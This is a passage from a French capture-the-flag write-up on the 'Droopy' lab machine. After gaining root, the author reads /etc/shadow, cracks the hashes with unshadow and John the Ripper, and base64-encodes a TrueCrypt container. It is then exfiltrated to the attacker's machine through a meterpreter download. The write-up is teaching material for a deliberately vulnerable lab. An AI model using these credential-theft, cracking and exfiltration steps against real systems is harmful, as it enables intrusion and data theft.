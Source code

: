 ```console
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```

On en profite au passage pour consulter le fichier ```/etc/shadow```. Celui-ci contient les mots de passe hashés de chaque compte Unix, ainsi que la date de la dernière modification du mot de passe ou encore la date d'expiration des comptes. L'outil __John The Ripper__ est en mesure de cracker les mots de passe Unix si on lui fournit les fichiers ```/etc/passwd``` et ```/etc/shadow``` de la VM (respectivement psw et shw), comme suit...

```console
root@blinils:~# unshadow psw shw > login
root@blinils:~# john login
Warning: detected hash type "sha512crypt", but the string is also recognized as "crypt"
Use the "--format=crypt" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Press 'q' or Ctrl-C to abort, almost any other key for status
gsuser           (gsuser)
toor             (root)
2g 0:00:00:00 DONE 1/3 (2018-05-08 01:23) 40.00g/s 300.0p/s 320.0c/s 320.0C/s gsuser..toor
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

On se reconnecte en root et... nom d'un chien (Droopy !) le CTF n'est pas terminé !

```console
www-data@droopy:/var/www/html$ su - root
su - root
Password: toor

root@droopy:~# ls
ls
dave.tc
```

## Attaque par dictionnaire sur un conteneur TrueCrypt avec Truecrack

Un dernier challenge nous attend : ```dave.tc``` est un [conteneur TrueCrypt](https://fr.wikipedia.org/wiki/TrueCrypt) qui, a priori, doit contenir un message de félicitations de la part de l'auteur du CTF. Mais avant cela, il faut trouver le mot de passe de ce conteneur ! Exfiltrons discrètement ce conteneur à l'aide du meterpreter.

```console
root@droopy:~# base64 dave.tc > /tmp/dave.b64
base64 dave.tc > /tmp/dave.b64
root@droopy:~# exit
exit
logout
www-data@droopy:/var/www/html$ exit
exit
exit
exit
meterpreter > download /tmp/dave.b64 /root/droopy/dave.b64
[*] Downloading: /tmp/dave.b64 -> /root/droopy/dave.b64
[*] Downloaded 1.00 MiB of 6.75 MiB (14.81%): /tmp/dave.b64 -> /root/droopy/dave.b64
[*] Downloaded 2.00 MiB of 6.75 MiB (29.61%): /tmp/dave.b64 -> /root/droopy/dave.b64
[*] Downloaded 3.00 MiB of 6.75 MiB (44.42%): /tmp/dave.b64 -> /root/droopy/dave.b64
[*] Downloaded 4.00 MiB of 6.75 MiB (59.22%): /tmp/dave.b64 -> /root/droopy/dave.b64
[*] Downloaded 5.00 MiB of 6.75 MiB (74.03%): /tmp/dave.b64 -> /root/droopy/dave.b64
[*] Downloaded 6.00 MiB of 6.75 MiB (88.83%): /tmp/dave.b64 -> /root/droopy/dave.b64
[*] Downloaded 6.75 MiB of 6.75 MiB (100.0%): /tmp/dave.b64 -> /root/droopy/dave.b64
[*] download   : /tmp/dave.b64 -> /root/droopy/dave.b64
```
